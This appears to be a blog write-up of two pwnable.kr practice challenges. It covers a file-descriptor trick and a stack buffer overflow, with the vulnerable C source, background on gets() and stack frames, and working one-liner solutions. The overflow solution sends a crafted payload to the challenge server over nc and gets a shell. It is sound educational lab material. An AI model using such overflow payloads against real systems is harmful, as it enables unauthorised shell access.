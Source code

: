 +++
title = "pwnable.kr - Toddler's Bottle"
date = 2020-04-27T12:59:37.396Z
updated = 2020-12-27
aliases = ["/posts/5ea6d739cea15a083827d57f-pwnablekr-toddlers-bottle"]
[taxonomies]
tags = ['pwnable.kr', 'binary-exploitation', 'buffer-overflow', 'pwntools']
categories = ["ctf-writeups"]
+++

# fd - 1pt
## Challenge
> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Source Code

After ssh-ing into the server with the given details, we can view the source code of the challenge by running `cat fd.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

<!-- more -->

## File Descriptors

On POSIX systems, there are three standard file descriptors:

* Standard Input (stdin) which has a fd of `0`
* Standard Output (stdout) which has a fd of `1`
* Standard Error (stderr) which has a fd of `2`

## Solution

The program subtracts 0x1234 from a file descriptor we provide and then reads from it. If the read string is `LETMEWIN\n`, it gives us the flag. If we get the program to read from `stdin`, we can just type `LETMEWIN` into the terminal, and we will get the flag:

```bash
echo LETMEWIN | ./fd $(python -c "print 0x1234 + 0")
```

# bof - 5pt
## Challenge

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> 
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

## Source Code

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

## Background


### Stack Frames
The stack stores local variables and function parameters and is used to pass parameters with certain calling conventions. This diagram (taken from [Wikipedia](https://en.wikipedia.org/wiki/Call_stack)) shows an example stack layout:

{{ svg(path="5ea6d67bcea15a083827d578.svg") }}


### gets

The function `gets` is insecure and allows for buffer overflows when used because it only stops at new lines or EOF. The manpage for gets (`man gets`) says this:

> Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the  end  of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

## Solution

We need to overwrite the `key` parameter passed to `func`. To get there we will need to overwrite 36 bytes (`char overflowme[32]`, and the return address (4 bytes in 32-bit programs)). However, additional values are pushed onto the stack to save the previous location of the stack. Therefore, we have to place `0xcafebabe` at 52 bytes into the stack:

```bash
(python -c "print('A'*52 + '\xbe\xba\xfe\xca')" && cat - ) | nc pwnable.kr 9000
```

Note that `0xcafebabe` is encoded into a little-endian format, and `cat -` is used to allow us to communicate with the opened shell.
